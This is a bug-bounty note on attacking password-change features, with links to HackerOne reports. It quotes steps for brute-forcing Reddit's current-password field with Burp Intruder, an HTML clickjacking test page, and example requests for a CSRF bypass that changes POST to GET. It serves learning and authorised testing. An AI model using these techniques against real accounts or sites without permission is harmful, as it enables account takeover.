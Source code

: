 ```yaml
---
tags:
  - web_hunting
---
```

### **Change Password Feature**

- [Missing rate limit in current password](https://hackerone.com/reports/1170522)
    
    ```python
    Steps To Reproduce:
    Login to <https://reddit.com/>
    Navigate to user settings > Change password
    Enter incorrect password in old password field and enter a new matching passwords in other two fields
    Turn on your burpsuite proxy and click save
    You'll notice the error as Incorrect password
    send the request <https://www.reddit.com/change_password> to your burpsuite intruder to bruteforce
    Add the payload to the current_password parameter
    select list of passwords for like 100 lines and start attack
    ```
    
- [password change is confirmed when not matching](https://hackerone.com/reports/803028)
    
- [CSRF bug on password change](https://hackerone.com/reports/230436)
    
    - **CSRF Bypasses**
        - **ClickJacking**
            
            ```html
            <html>
             <head>
             <title>Clickjack test page</title>
             </head>
             <body>
             <p>This page is vulnerable to clickjacking if the iframe is not blank!</p>
             <iframe src="PAGE_URL" width="500" height="500"></iframe>
             </body>
            </html>
            ```
            
        - **Change Request Method**
            
            ```html
            POST /password_change
            Host: email.example.com
            Cookie: session_cookie=YOUR_SESSION_COOKIE
            (POST request body)
            new_password=abc123&csrf_token=871caef0757a4ac9691aceb9aad8b65b
            --------------------------------------------
            GET /password_change?new_password=abc123
            Host: email.example.com
            Cookie: session_cookie=YOUR_SESSION_COOKIE
            ```
            